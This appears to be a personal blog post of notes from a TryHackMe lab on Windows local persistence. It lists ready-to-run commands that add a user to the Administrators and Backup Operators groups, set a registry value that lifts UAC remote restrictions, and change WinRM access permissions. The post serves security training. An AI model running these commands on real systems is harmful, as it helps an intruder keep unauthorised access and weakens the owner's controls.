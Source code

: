 ```yaml
---
published: true
layout: post
tags:
  - windows
  - persistance
title: Windows Persistance List
---
```

# Summary
{:.no_toc}

* toc
{:toc}

# Disclaimer
This information was fully presented on TryHackMe https://tryhackme.com/room/windowslocalpersistence. If you find that usefull, go to TryHackMe and find something more.

# Intro
I was really impressed by the room from TryHackMe, I didnt know a half of this tricks, thats why I want to save this information primary for myself.

# Basics and well known tricks

## Groups and hidden rights
Well, the most obvious:
```
net localgroup administrators user /add
```

Not so obvious is `Backup Operators` group. It allows any user to read/write any file in OS, which is cool.
```
net localgroup "Backup Operators" user /add
```
Be aware, no RDP nor WinRM will be allowed for that user only from `Backup Operators` group. And also keep in mind UAC which will be in your way, so you will need to disable it.
```
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

And apply DACL for WinRM by this command.
```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
